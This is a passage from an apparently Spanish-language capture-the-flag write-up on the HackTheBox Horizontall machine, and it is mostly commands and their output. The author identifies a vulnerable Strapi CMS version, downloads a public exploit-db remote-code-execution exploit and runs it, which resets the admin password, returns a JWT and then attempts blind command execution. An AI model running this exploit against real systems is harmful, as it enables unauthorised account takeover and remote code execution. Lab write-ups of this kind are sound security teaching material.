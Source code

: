 Viendo esto, sin saber la versión, me atrevo a buscar vulnerabilidades de este servicio.

Encuentro esto y me llama la atención:

![image](https://user-images.githubusercontent.com/67548295/153747276-eec348ec-945e-4349-bb55-42f70eea9cfd.png)

Reviso el código y parece ser un exploit en python que explota una vulnerabilidad de ejecución remota de comandos.

También me logro dar cuenta de que el exploit contiene una función donde chequea la versión del servicio con una petición GET.

![image](https://user-images.githubusercontent.com/67548295/153747438-aa163f86-907c-44a3-a137-711435cdbb44.png)

Se hace una petición GET al recurso `/admin/init`, bien, probemos a hacer esto con `curl`

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $ curl -s http://api-prod.horizontall.htb/admin/init | jq
{
  "data": {
    "uuid": "a55da3bd-9693-4a08-9279-f9df57fd1817",
    "currentEnvironment": "development",
    "autoReload": false,
    "strapiVersion": "3.0.0-beta.17.4"
  }
}
```
Y vemos que logramos ver la versión, la cual encaja con la de la vulnerabilidad.

Así que descargo el exploit y lo pruebo en mi máquina.

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $ wget https://www.exploit-db.com/raw/50239 -O Strapi-RCE-exploit.py 
--2022-02-13 09:46:38--  https://www.exploit-db.com/raw/50239
Resolviendo www.exploit-db.com (www.exploit-db.com)... 192.124.249.13
Conectando con www.exploit-db.com (www.exploit-db.com)[192.124.249.13]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 2509 (2,5K) [text/plain]
Grabando a: «Strapi-RCE-exploit.py»

Strapi-RCE-exploit.py                           100%[====================================================================================================>]   2,45K  --.-KB/s    en 0s      

2022-02-13 09:46:38 (21,2 MB/s) - «Strapi-RCE-exploit.py» guardado [2509/2509]

┌─[z3r0byte@z3r0byte]─[~]
└──╼ $ python3 Strapi-RCE-exploit.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQ0NzQ1NTI5LCJleHAiOjE2NDczMzc1Mjl9.qGtTqJo6fEFpwo8Wc5mo1HM5XOev-9A_fBntB_wk6j0


$> whoami
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
{"statusCode":400,"error":"Bad Request","message":[{"messages":[{"id":"An error occurred"}]}]}
```
Como podemos apreciar, el exploit es funcional hasta que intento ejecutar comandos. 
